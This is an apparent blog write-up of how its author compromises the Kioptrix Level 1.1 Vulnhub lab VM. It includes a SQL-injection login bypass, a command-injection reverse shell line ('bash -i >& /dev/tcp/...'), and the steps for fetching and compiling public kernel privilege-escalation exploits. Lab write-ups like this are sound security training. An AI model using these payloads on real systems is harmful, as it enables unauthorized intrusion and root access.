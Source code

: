 ```yaml
---
layout: post
title: Vulnhub - Kioptrix: Level 1.1 (#2)
---
```


This is my first writeup of a Vulnhub VM, so let's see how this goes...

This writeup is for the Kioptrix: Level 1.1 (#2) found [here](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/).

The VM was run using VMWare and the attacking machine was a Kali Linux VM running in Virtualbox, both in host-only networking mode.

## Recon and Enumeration
I used netdiscover to find the IP of the box.
```bash
root@kali:~# netdiscover
```
![netdiscover output]({{ site.baseurl }}/images/KioptrixLevel1_1/netdiscover.png "netdiscover output")

Because I knew that the VM was running in VMWare, I chose the VMWare IP, 192.168.56.106

I then ran `nmap` to find open ports with services running on them.

```bash
root@kali:~# nmap 192.168.56.106
Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-20 13:18 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.106
Host is up (0.0015s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
631/tcp  open  ipp
3306/tcp open  mysql
MAC Address: 00:0C:29:51:2F:3D (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.38 seconds
```

I noticed that there may be an http server running on the box, so I went to the IP address in a web browser and was presented with a logon page.

## Vulnerability Discovery and Exploitation

![Logon page]({{ site.baseurl }}/images/KioptrixLevel1_1/logon.png "Logon page")

I tested a few basic username and password combinations, but it didn't seem to do anything. I ran OWASP ZAP to find any potential vulnerabilities or hidden pages. Using an automated scan, ZAP detected a possible SQL injection vulnerability on the logon page.

![ZAP Results]({{ site.baseurl }}/images/KioptrixLevel1_1/zap.png "ZAP Results")

I plugged the attack used (`ZAP' OR '1'='1' --`) into the username field and was presented with a form to ping a machine on the network. I immanently suspected there to be a bash injection vulnerability, but I plugged in an IP to make sure.

This brought me to a page containing the output to the ping command.

![ping results]({{ site.baseurl }}/images/KioptrixLevel1_1/ping.png "ping Results")

I ran `; ls` to make sure that I could inject a command and was presented with a directory listing. Next, I injected a reverse shell by first opening a netcat listener on my Kali VM and then putting the shell code into the form.

```bash
root@kali:~# nc -nvlp 1234
```

```bash
; bash -i >& /dev/tcp/192.168.56.101/1234 0>&1
```

This presented me with a shell on my Kali VM.

![Reverse Shell]({{ site.baseurl }}/images/KioptrixLevel1_1/shell.png "Reverse Shell")

## Privilege Escalation

I first check the user that I am.

```bash
bash-3.00$ whoami
apache
```

I look around a bit to find possible things to exploit, but I can't find anything obvious.

Next, I check the kernel version to see if there are any exploits available.

```bash
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
```

I found that the box was vulnerable to ['ip_append_data()' Ring0 Privilege Escalation](https://www.exploit-db.com/exploits/9542).

Because neither box was connected to the internet, I used a shared folder on my Kali VM to move the exploit to it. I then used the python SimpleHTTPServer to send the file to the box.

```bash
root@kali:~# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

I used `wget` on the box to retrieve the file from my Kali VM.

```bash
bash-3.00$ cd /tmp
bash-3.00$ wget 192.168.56.101/9542.c
--10:41:56--  http://192.168.56.101/9542.c
           => `9542.c'
Connecting to 192.168.56.101:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,643 (2.6K) [text/plain]

    0K ..                                                    100%    5.65 MB/s

10:41:56 (5.65 MB/s) - `9542.c' saved [2643/2643]
```

I then compiled it according to the instructions and ran it.

```bash
bash-3.00$ gcc -o 9542 9542.c
bash-3.00$ ./9542
[-] exploit failed, try again
```

This unfortunately didn't work. I looked at the source code to figure out why, but couldn't figure it out as this error is supposed to happen when the uid did not change with the exploit.

I uploaded [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py) and ran it to find other potential vulnerabilities with the box.

```bash
bash-3.00$ python linuxprivchecker.py
...
[*] FINDING RELEVENT PRIVILEGE ESCALATION EXPLOITS...

    Note: Exploits relying on a compile/scripting language not detected on this system are marked with a '**' but should still be tested!

    The following exploits are ranked higher in probability of success because this script detected a related running process, OS, or mounted file system
    - 2.6 UDEV < 141 Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8572 || Language=c
    - 2.6 UDEV Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8478 || Language=c
    - MySQL 4.x/5.0 User-Defined Function Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/1518 || Language=c

    The following exploits are applicable to this kernel version and should be investigated as well
    - Kernel ia32syscall Emulation Privilege Escalation || http://www.exploit-db.com/exploits/15023 || Language=c
    - 2.x sock_sendpage() Local Root Exploit 2 || http://www.exploit-db.com/exploits/9436 || Language=c
    - open-time Capability file_ns_capable() - Privilege Escalation Vulnerability || http://www.exploit-db.com/exploits/25307 || Language=c
    - 2.4/2.6 sock_sendpage() ring0 Root Exploit (simple ver) || http://www.exploit-db.com/exploits/9479 || Language=c
    - 2.6 UDEV < 141 Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8572 || Language=c
    - 2.4/2.6 sock_sendpage() Local Root Exploit [2] || http://www.exploit-db.com/exploits/9598 || Language=c
    - open-time Capability file_ns_capable() Privilege Escalation || http://www.exploit-db.com/exploits/25450 || Language=c
    - CAP_SYS_ADMIN to Root Exploit 2 (32 and 64-bit) || http://www.exploit-db.com/exploits/15944 || Language=c
    - 2.6.x ptrace_attach Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8673 || Language=c
    - 2.x sock_sendpage() Local Ring0 Root Exploit || http://www.exploit-db.com/exploits/9435 || Language=c
    - 2.4/2.6 bluez Local Root Privilege Escalation Exploit (update) || http://www.exploit-db.com/exploits/926 || Language=c
    - CAP_SYS_ADMIN to root Exploit || http://www.exploit-db.com/exploits/15916 || Language=c
    - 2.4/2.6 sock_sendpage() Local Root Exploit (ppc) || http://www.exploit-db.com/exploits/9545 || Language=c
    - 2.6 UDEV Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8478 || Language=c
    - MySQL 4.x/5.0 User-Defined Function Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/1518 || Language=c
    - Sendpage Local Privilege Escalation || http://www.exploit-db.com/exploits/19933 || Language=ruby**
    - 2.4/2.6 sock_sendpage() Local Root Exploit [3] || http://www.exploit-db.com/exploits/9641 || Language=c
    - 2.4.x / 2.6.x uselib() Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/895 || Language=c

Finished
=================================================================================================
```

I tested the [2.6 UDEV < 141 Local Privilege Escalation Exploit](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py) using the same methodology as above, but it didn't work either. I went down to the [2.4/2.6 sock_sendpage() Local Root Exploit (ppc)](http://www.exploit-db.com/exploits/9545), once again with the same methodology
and this time it worked.

![Root]({{ site.baseurl }}/images/KioptrixLevel1_1/root.png "Root")

